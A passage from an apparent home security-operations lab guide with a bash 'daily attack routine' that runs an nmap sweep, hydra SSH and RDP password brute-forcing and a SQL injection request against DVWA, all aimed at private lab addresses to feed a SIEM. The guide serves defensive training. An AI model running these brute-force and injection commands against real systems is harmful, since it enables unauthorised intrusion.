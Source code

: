 4. **Document all activities**:
   - Log all attacks
   - Note timestamps
   - Record successful exploits
   - Save all evidence

## Maintenance Scripts

### Daily Lab Attack Routine

```bash
tee ~/attack-scripts/daily-routine.sh > /dev/null <<'EOF'
#!/bin/bash

echo "[*] SOC Lab Daily Attack Routine"
echo "[*] Date: $(date)"

# 1. Network reconnaissance
echo "[*] Phase 1: Reconnaissance"
nmap -sn 192.168.1.0/24

# 2. SSH brute force
echo "[*] Phase 2: SSH Attacks"
hydra -l admin -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.40 -t 4

# 3. Web attacks
echo "[*] Phase 3: Web Attacks"
curl "http://192.168.1.40/dvwa/vulnerabilities/sqli/?id=1' OR '1'='1"

# 4. RDP attempts
echo "[*] Phase 4: RDP Attacks"
hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt rdp://192.168.1.30 -t 2

echo "[+] Daily routine complete"
echo "[*] Check SIEM dashboard at http://192.168.1.20:5601"
EOF

chmod +x ~/attack-scripts/daily-routine.sh
```

## Troubleshooting

### Network Connectivity Issues

```bash
# Check IP configuration
ip addr show

# Test connectivity to targets
ping -c 3 192.168.1.10
ping -c 3 192.168.1.20
ping -c 3 192.168.1.30
ping -c 3 192.168.1.40

# Check routing
ip route show

# DNS resolution
nslookup soc-dc1 192.168.1.10
```
